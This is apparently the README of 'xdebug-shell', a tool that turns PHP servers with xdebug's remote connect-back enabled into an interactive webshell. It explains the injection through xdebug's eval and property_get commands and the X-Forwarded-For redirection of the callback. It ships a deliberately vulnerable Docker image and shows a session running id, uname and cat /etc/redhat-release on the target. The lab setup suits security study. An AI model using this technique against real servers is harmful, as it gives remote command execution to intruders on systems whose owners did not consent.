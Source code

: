 # xdebug-shell

Exploiting xdebug to get remote command execution is not new:

* https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/
* https://ricterz.me/posts/Xdebug:%20A%20Tiny%20Attack%20Surface

It is always cool to have a webshell.

## What is xdebug ?

Xdebug is a php extension that allows to debug php pages, remotely by using DGBp protocol. Code repository is located at [xdebug](https://github.com/xdebug/xdebug).

Code execution is possible via injections that exist in `eval` or `property_get` xdebug commands.

## How to activate it ?

For a reverse shell to work, xdebug configuration needs to include:

```
xdebug.remote_enable=true
xdebug.remote_connect_back=true
```

In order to start xdebug, add `XDEBUG_SESSION_START` to query parameters. Remote server will try to connect back to user on port tcp/9000. The endpoint where to connect to can be altered using `X-Forwarded-For` header. For example, if using Docker for Mac to run the xdebug Docker image supplied, you may use `docker.for.mac.localhost` as value.

## How to start a Docker vulnerable image ?

Go into vulnerable-xdebug and type:

```
$ docker build -t vulnerable-xdebug .
$ docker run -ti --rm -p 8080:80 vulnerable-xdebug
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
```

[Dockerfile](vulnerable-xdebug/Dockerfile) is based on Centos 7.4.1708 image.

## Get a webshell

```
$ ./xdebug-shell.py --local-host=docker.for.mac.localhost http://127.0.0.1:8080/phpinfo.php
>> id
uid=48(apache) gid=48(apache) groups=48(apache)
>> pwd
/var/www/html
>> uname -a
Linux b8db2353f675 4.9.60-linuxkit-aufs #1 SMP Mon Nov 6 16:00:12 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
>> cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)
>> lsmod
Module                  Size  Used by
xfrm_user              32768  1
xfrm_algo              16384  1 xfrm_user
>> ^D
```

